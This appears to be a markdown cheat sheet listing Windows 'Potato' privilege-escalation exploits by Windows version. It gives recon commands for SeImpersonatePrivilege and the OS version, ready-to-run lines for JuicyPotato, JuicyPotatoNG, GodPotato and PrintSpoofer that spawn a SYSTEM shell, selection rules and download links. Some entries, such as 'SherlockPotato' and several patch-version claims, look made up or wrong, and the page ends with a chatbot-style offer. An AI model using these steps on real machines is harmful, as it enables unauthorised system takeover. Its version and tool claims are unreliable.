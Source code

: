 # 🥔 Windows Potato Exploit List (New & Old)

This document contains a list of all **Potato-style privilege escalation exploits** for Windows, categorized by **old and new exploits** along with their applicable Windows versions.

## 📜 Exploit List

| **Exploit Name**       | **Status** | **Windows Versions** | **Notes** |
|------------------------|-----------|----------------------|-----------|
| **HotPotato**          | 🛑 Old    | Windows 7 - Windows 10 (1607) | Exploits NTLM relay via WPAD. **No longer effective on modern Windows.** |
| **RottenPotato**       | 🛑 Old    | Windows 7 - Windows 10 | Uses NTLM reflection attack. Replaced by JuicyPotato. |
| **JuicyPotato**        | 🛑 Old    | Windows 7 - Windows 10 (1809) | Uses DCOM & CLSID. **Patched in Windows 10 1903+.** |
| **JuicyPotatoNG**      | ✅ New    | Windows 10 1903+ - Windows 11 | Updated JuicyPotato for modern Windows. Requires valid CLSID. |
| **RoguePotato**        | 🛑 Old    | Windows 10 (up to 21H1), Windows Server 2019 | Uses fake RPC backconnect. **Patched in Windows 10 21H2+.** |
| **GodPotato**          | ✅ New    | Windows 10 & Windows 11 | Bypasses RPC filtering to get SYSTEM. Works on newer Windows versions. |
| **SweetPotato**        | ✅ New    | Windows 7 - Windows 10 (1809) | Alternative to JuicyPotato, does not require DCOM. |
| **PrintSpoofer**       | ✅ New    | Windows 10 & Windows 11 (If Print Spooler is running) | Exploits SeImpersonatePrivilege using Print Spooler. |
| **BadPotato**          | ✅ New    | Windows 10, Windows 11 | Similar to RoguePotato but works on newer versions. |
| **SherlockPotato**     | ✅ New    | Windows 10 & Windows 11 | Another variation using named pipes and RPC. |

---
Do not forget to check for PowerShell implementation of these attacks.
## 🛠️ How to Choose the Right Exploit

### 1️⃣ Check if `SeImpersonatePrivilege` is Enabled
```powershell
whoami /priv | findstr "SeImpersonatePrivilege"
```
✔️ **If enabled, move to Step 2**  
❌ **If not enabled, look for other privilege escalation methods.**  

### 2️⃣ Identify the Windows Version
```powershell
systeminfo | findstr /B /C:"OS Version"
```
Then, pick a compatible exploit from the table above.

---

## 📌 Example Usage Commands

### **JuicyPotato (Windows 7 - Windows 10 1809)**
```powershell
JuicyPotato.exe -t * -p cmd.exe -l 1337
```

### **JuicyPotatoNG (Windows 10 1903+ & Windows 11)**
```powershell
JuicyPotatoNG.exe -t * -p cmd.exe -l 9999
```

### **GodPotato (Windows 10 & 11)**
```powershell
GodPotato.exe -cmd "cmd.exe" -i
```

### **PrintSpoofer (If Print Spooler is Running)**
```powershell
PrintSpoofer.exe -c cmd.exe -i
```

---

## 📌 Key Takeaways
✔️ **If using Windows 10 (1809 or older),** use **JuicyPotato or SweetPotato**.  
✔️ **If using Windows 10 (1903+),** use **JuicyPotatoNG**.  
✔️ **If using Windows 10 (21H2+) or Windows 11,** use **GodPotato or PrintSpoofer**.  
✔️ **If Print Spooler is running,** **PrintSpoofer** is an easy win.  
✔️ **Always check if SeImpersonatePrivilege is enabled before trying a Potato exploit.**  

---

## 📥 Download Links
Most of these tools can be found on **GitHub** or within **Windows exploit toolkits**. Below are some links to useful resources:
- [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

---

### 📌 **Offline Cheat Sheet Available?**
Would you like to see this as a **printable cheat sheet** for easy reference? Let me know!

